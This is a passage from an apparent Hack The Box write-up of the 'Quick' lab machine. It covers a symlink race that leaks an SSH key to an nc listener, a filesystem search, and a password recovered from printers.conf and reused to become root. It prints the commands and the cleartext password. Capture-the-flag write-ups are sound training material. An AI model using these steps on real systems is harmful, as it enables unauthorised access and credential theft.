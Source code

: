 Now, we can create a ssh key for ourselves on our local machine:

```
ssh-keygen -t rsa

cat id_rsa.pub
```

We need to copy our id_rsa.pub key and put it in the description field. Now, to make sure that we're catching the right symlink at the right time, we can move our php file to the /var/www/jobs folder, and put it on a loop:

```
for i in $(seq 0 100);do php filecreate.php;done
```

Now, we need to quickly hit the Print button on the website, with our id_rsa.pub key in the Description, and either a Python3 script up to catch the request or nc. We should see our key pop up on our listener. If so, the exploit has completed succesfully!

We can now ssh in:

```
ssh -i ~/.ssh/id_rsa srvadm@quick.htb
```

Now that we have srvadm, we can look for interesting files owned by him:

```
find / -user srvadm >> test.txt
cat test.txt

...
/home/srvadm/.cache                                 
/home/srvadm/.cache/conf.d                              
/home/srvadm/.cache/conf.d/printers.conf            
/home/srvadm/.cache/conf.d/cupsd.conf          
/home/srvadm/.cache/logs                        
/home/srvadm/.cache/logs/debug.log                  
/home/srvadm/.cache/logs/error.log                      
/home/srvadm/.cache/logs/cups.log                   
/home/srvadm/.cache/packages                            
/home/srvadm/.cache/motd.legal-displayed 
...
```

Those conf.d files look interesting! Taking a look at printers.conf, we see the following URI:

https://srvadm%40quick.htb:%26ftQ4K3SGde8%3F@printerv3.quick.htb/printer

If we URL-decode this, it becomes

https://srvadm@quick.htb:&ftQ4K3SGde8?@printerv3.quick.htb/printer

That &ftQ4K3SGde8? definitely looks like a password. We can check sudo -l and see if srvadm can run anything with sudo, but this isn't his password. Of course, as always, we'll try just su'ing to root.

```
su 
Password: &ftQ4K3SGde8?

root@quick:/home/srvadm/.cache/conf.d# whoami
root
```

Well that was easy!

**root:&ftQ4K3SGde8?**

